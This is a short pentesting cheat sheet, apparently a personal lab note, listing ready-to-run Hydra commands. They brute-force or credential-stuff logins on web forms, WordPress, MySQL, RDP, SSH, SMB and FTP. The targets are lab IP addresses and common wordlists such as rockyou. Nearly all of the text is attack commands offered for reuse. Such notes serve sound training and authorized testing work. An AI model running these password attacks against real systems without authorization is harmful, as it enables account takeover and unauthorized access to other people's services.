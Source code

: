 ```yaml
---
tags:
  - Post-Exploitation
  - Cryptography
  - PasswordsAndWordlists
  - Tooling
  - BruteForcing
---
```

Hydra is a parallelized login cracker which supports numerous protocols to attack. It is very fast and flexible, and new modules are easy to add.

## HTTP POST

```
hydra -l admin -P /usr/share/seclists/Passwords/darkweb2017-top10000.txt 10.10.10.73 http-post-form "/login.php:username=admin&password=^PASS^:Wrong identification"
```

## WordPress

```
hydra -L users -P /usr/share/wordlists/rockyou.txt five86-2 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Ffive86-2%2Fwp-admin%2F&testcookie=1:ERROR:H=Cookie: wordpress_test_cookie=WP+Cookie+check" -t 30 -I
```

## [[2. Enumeration/TCP/3306. MySQL (SQL)/1. Guide|SQL]]

```
hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.120.198 mysql -t 16 
```

```
hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.120.198 mysql -t 16 
```

## RDP

```shell-session
hydra -L user.list -P password.list rdp://10.129.42.197
```
## SSH

```
hydra -l samantha -P /usr/share/seclists/Passwords/Common-Credentials/500-worst-passwords.txt 192.168.183.116 ssh
```

```
hydra -t 4 -l hadi -P passwords-mutated.txt 192.168.120.52 ssh
```

```shell-session
hydra -L user.list -P password.list ssh://10.129.42.197
```
## SMB

```
hydra -L users -P wordlist 10.10.10.193 smb
```

```shell-session
hydra -L user.list -P password.list smb://10.129.42.197
```

## FTP

```shell-session
hydra -l sam -P mut_password.list ftp://10.129.202.64 -t 64
```

## Credential Stuffing

When you have a list of valid usernames and passwords which you wish to attempt to login using the list:

```shell-session
hydra -C user_pass.list ssh://10.129.42.197
```
